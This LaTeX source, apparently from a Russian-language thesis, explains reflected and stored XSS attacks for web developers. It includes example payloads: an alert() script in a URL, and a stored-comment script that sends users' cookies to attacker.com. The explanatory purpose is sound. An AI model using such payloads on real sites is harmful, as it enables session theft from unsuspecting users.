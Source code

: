 \documentclass[a4paper,12pt]{diplom}
\begin{document}
	 \textbf{Важно понимать, что XSS-атаки могут быть очень опасными и иметь серьезные последствия для пользователей. Поэтому разработчики веб-приложений должны принимать меры для защиты своих сайтов от этого типа атак.}
	 
	 
	 
	 
	 
	 
	 
	 \section{Различные типы XSS-атак и их примеры}
	 
	 XSS-атаки могут быть классифицированы по нескольким критериям, включая способ внедрения кода, контекст выполнения кода и цель атаки. 
	 
	 \subsection{Классификация по способу внедрения}
	 
	 \textbf{Отраженные (Reflected) XSS}: В этом типе атаки вредоносный код не сохраняется на сервере, а отражается от него в ответ на запрос пользователя, содержащий вредоносный скрипт.  Например,  злоумышленник может отправить жертве ссылку,  которая содержит вредоносный скрипт в параметрах URL.  Когда жертва переходит по ссылке,  скрипт выполняется в ее браузере. 
	 
	 \begin{itemize}
	 	\item \textbf{Пример}:  Злоумышленник отправляет жертве ссылку вида: \\ \textit{https://example.com/search?q=<script>alert('XSS!')</script>}. \\
	 	Если сайт уязвим к отраженным XSS, то при переходе по ссылке жертва увидит всплывающее окно с сообщением "XSS!".
	 \end{itemize}
	 
	 
	 \textbf{Хранимые (Stored) XSS}:  В этом типе атаки вредоносный код сохраняется на сервере,  например,  в базе данных или файловой системе.  Код выполняется в браузере каждого пользователя,  который посещает уязвимую страницу.  Например,  злоумышленник может оставить комментарий на форуме,  который содержит вредоносный скрипт.  Этот скрипт будет выполнен в браузере каждого пользователя,  который просматривает комментарии. 
	 
	 \begin{itemize}
	 	\item \textbf{Пример}:  Злоумышленник оставляет комментарий на форуме с кодом: \\ \textit{<script>new Image().src="http://attacker.com/?cookie="+document.cookie;</script>}. \\
	 	Этот скрипт отправляет cookie пользователя на сервер злоумышленника. 
	 \end{itemize}
	 
\end{document}
